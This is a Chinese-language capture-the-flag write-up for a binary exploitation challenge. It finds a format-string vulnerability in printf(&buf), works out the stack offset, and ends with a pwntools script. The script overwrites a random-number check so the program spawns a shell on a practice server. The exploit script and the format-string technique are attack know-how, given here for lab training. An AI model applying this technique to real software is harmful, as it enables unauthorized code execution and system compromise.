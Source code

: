 查看程序的安全机制

![image-20200907171415275](https://static.hack1s.fun/images/2021/02/06/image-20200907171415275.png)

安全机制开启了好几个，除了PIE都开了

IDA反汇编查看main函数

![image-20200907171504354](https://static.hack1s.fun/images/2021/02/06/image-20200907171504354.png)

设置了个随机数，读入两个输入，并和其进行比较，如果输入的pass和随机数相等则调用`/bin/sh`

这里两个输入都进行了长度限制，不存在直接溢出的问题

但是看到在printf密码之前，有一个`printf(&buf)`的语句

尝试运行输入很长的内容，可以看到输入出现了一些问题，因此可能是格式化字符串的漏洞

![image-20200907171852085](https://static.hack1s.fun/images/2021/02/06/image-20200907171852085.png)

根据上面代码的思路，首先用格式化字符串漏洞打印出`unk_804C044`缓冲区中数字的值

之后再输入密码的时候输入这个数字就可以了

那么这里需要涉及到的问题就是格式化字符串漏洞的任意地址读问题

输入`aaaa`以及若干个`%x`，可以根据输出中`aaaa`字符出现的偏移确定buf和栈帧的距离

![image-20200907172756891](https://static.hack1s.fun/images/2021/02/06/image-20200907172756891.png)

这里算出来发现偏移是10

而这个随机数是写在bss段的，有固定地址

直接用pwntools的fmtstr_payload来写

```python
#!/usr/bin/python
from pwn import *

elf = context.binary = ELF('./pwn')
context.terminal = ['konsole','sh','-e']

gs = ''' 
continue
'''

def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    else:
        return process(elf.path)

#  io = start()

io = remote('node3.buuoj.cn',25632)                                                                                                                                                              
payload = fmtstr_payload(10,{0x804c044:0x1})

io.send(payload)

io.interactive()
```



